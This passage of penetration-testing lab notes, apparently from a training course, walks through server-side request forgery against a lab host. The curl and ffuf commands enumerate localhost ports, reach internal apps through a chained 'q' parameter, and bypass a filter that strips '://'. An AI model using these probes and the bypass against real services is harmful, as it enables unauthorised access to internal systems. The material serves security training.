   * Testing for any internal apps and listening only on localhost:

    ```shell
    # create wordlist for all ports
    for port in {1..65535};do echo $port >> ports.txt;done

    # issue request to random port to get response size of a request for non-existent service
    curl -i -s "http://10.129.201.238/load?q=http://127.0.0.1:1"

    # use ffuf to enumerate and filter out this response size
    ffuf -w ports.txt:PORT -u "http://10.129.201.238/load?q=http://127.0.0.1:PORT" -fs 30 -s
    # -s for silent mode
    # we get ports 80, 5000
    ```
  
  * Interact with this app listening on port 5000:

    ```shell
    curl -i -s "http://10.129.201.238/load?q=http://127.0.0.1:5000"
    ```
  
  * Now, we can try attacking ```internal.app.local``` found earlier, again using SSRF:

    ```shell
    curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=index.html"
    # fetches the internal app webpage as expected
    # as both apps load resources via the 'q' parameter
    ```
  
  * Trying to discover any web apps listening in localhost:

    ```shell
    curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"
    # here we get 'unknown url type' error
    # it seems the web app is removing '://' part of the URL from request

    # modifying the URL
    curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"
    